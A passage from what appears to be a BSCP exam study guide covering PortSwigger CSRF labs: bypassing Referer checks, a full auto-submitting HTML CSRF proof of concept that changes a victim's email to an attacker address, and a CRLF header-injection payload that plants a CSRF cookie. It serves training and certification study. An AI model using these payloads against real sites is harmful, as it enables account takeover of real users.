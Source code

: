 >When above exploit payload is delivered to victim, the CSRF POC payload changes the victim email to **hacker@exploit.net**, because the Referer header contained target in value. In ***BSCP*** exam take not of your ```hacker@exploit``` server email address to use in account takeover.  

[PortSwigger Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)  
  
### Referer Header Present  

>In the update email request when changing the `referer` header the response indicate `Invalid referer header`, ***identifying*** CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed. This instruct the exploit server to Deliver Exploit to victim without `referer` header.  

```html
<html>
  <!-- CSRF PoC - CSRF where Referer validation depends on header being present -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="administrator&#64;EXPLOIT&#46;NET" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

>This is interactive exploit and in BSCP exam if the stage 1 exploit was non interactive then this can be used to obtain administrator interaction by her clicking on the link to change their password. Note to check the `source code` of the change email page for any additional form id values.  

![csrf referer present](images/csrf-referer-present.png)  

[PortSwigger Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)  

### LastSearchTerm  

>***Identify*** the CSRF vulnerability where token not tied to non-session cookie, by changing the **csrfkey** cookie and seeing the result that the request is rejected. Observe the **LastSearchTerm** cookie value containing the user supplied input from the search parameter.  

![identify-csrf-non-session-tied.png](images/identify-csrf-non-session-tied.png)  

>Search function has no CSRF protection, create below payload that injects new line characters ```%0d%0a``` to set new cookie value in response, and use this to inject cookies into the victim user's browser.  

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None
```  
